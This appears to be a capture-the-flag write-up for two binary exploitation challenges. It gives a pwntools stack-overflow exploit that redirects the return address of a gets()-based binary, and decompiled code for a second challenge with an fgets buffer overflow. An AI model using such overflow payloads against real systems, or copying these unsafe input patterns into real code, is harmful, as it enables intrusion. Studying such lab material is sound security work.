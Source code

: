## get it

```python
from pwn import *

p = process("./get_it")

payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12345678"
payload += p64(0x4005b6)

p.sendline(payload)
p.interactive()
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+10h] [rbp-20h]

  puts("Do you gets it??");
  gets((__int64)&v4);
  return 0;
}
```

## shell->code

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Linked lists are great! \nThey let you chain pieces of data together.\n");
  nononode();
  return 0;
}
int nononode()
{
  char v1; // [rsp+0h] [rbp-40h]
  __int64 node2; // [rsp+8h] [rbp-38h]
  char *node1_pointer; // [rsp+20h] [rbp-20h]
  __int64 node1; // [rsp+28h] [rbp-18h]

  node1_pointer = &v1;
  puts("(15 bytes) Text for node 1:  ");
  readline((char *)&node1, 0xFuLL);
  puts("(15 bytes) Text for node 2: ");
  readline((char *)&node2, 0xFuLL);
  puts("node1: ");
  printNode(&node1_pointer);
  return goodbye();
}
int goodbye()
{
  char overflow; // [rsp+Dh] [rbp-3h]

  puts("What are your initials?");
  fgets(&overflow, 32, stdin);
  return printf("Thanks %s\n", &overflow);
}
```
